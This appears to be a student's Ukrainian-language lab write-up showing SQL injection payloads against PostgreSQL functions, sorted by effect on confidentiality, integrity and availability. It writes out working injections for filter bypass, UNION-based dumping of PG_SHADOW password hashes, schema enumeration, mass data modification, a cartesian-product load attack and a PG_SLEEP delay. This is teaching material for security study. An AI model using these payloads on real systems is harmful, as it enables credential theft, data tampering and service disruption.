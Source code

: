 ## Порушення конфіденційності

### SQL-ін'єкція підкласу "Зняття фільтрації рідків умови SQL-запиту"

Приклад SQL-ін'єкції підкласу "Зняття фільтрації рідків умови SQL-запиту":<br>
```SELECT * FROM get_data('Petrov'' OR 1=1 -- ');```<br>
![Результат SQL-ін'єкції](Laboratory-work-8/secure_screenshots/1.png)

### SQL-ін'єкція підкласу "Отримання вмісту таблиць, що не входять у SQL-запит"

Приклад SQL-ін'єкції підкласу "Отримання вмісту таблиць, що не входять у SQL-запит":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT CAST(USESYSID AS INTEGER),CAST(USENAME AS VARCHAR), CAST(PASSWD AS VARCHAR) FROM PG_SHADOW --');```<br>
![Результат SQL-ін'єкції](Laboratory-work-8/secure_screenshots/2.png)

### SQL-ін'єкція підкласу "Отримання структури таблиць БД"

Приклад SQL-ін'єкції підкласу "Отримання структури таблиць БД":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT 1,CAST(TABLE_NAME AS VARCHAR),CAST(NULL AS VARCHAR) FROM INFORMATION_SCHEMA.TABLES -- ');```<br>
![Результат SQL-ін'єкції](Laboratory-work-8/secure_screenshots/3.png)

## Порушення цілісності даних

### SQL-ін'єкція підкласу "Порушення цілісності вмісту таблиць БД"

Приклад SQL-ін'єкції підкласу "Порушення цілісності вмісту таблиць БД":<br>
```SELECT * FROM change_data('Petrov'' OR 1 = 1 -- ',1);```<br>
![Результат SQL-ін'єкції](Laboratory-work-8/secure_screenshots/4.png)

## Порушення доступності

### SQL-ін'єкція підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер"

Приклад SQL-ін'єкції підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT a1, cast(a1 as varchar) as name, current_date + a1 as bd FROM (SELECT generate_series a1 FROM generate_series(1, 1000)) t1 CROSS JOIN (SELECT * FROM generate_series(1, 1000) t2) t3 -- ');```<br>
![Результат SQL-ін'єкції](Laboratory-work-8/secure_screenshots/5.png)

### SQL-ін'єкція підкласу "Включення підзапиту зі сплячим процесом"

Приклад SQL-ін'єкції підкласу "Включення підзапиту зі сплячим процесом":<br>
```SELECT * FROM change_data(1,'Petrov'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');```<br>
![Результат SQL-ін'єкції](Laboratory-work-8/secure_screenshots/6.png)
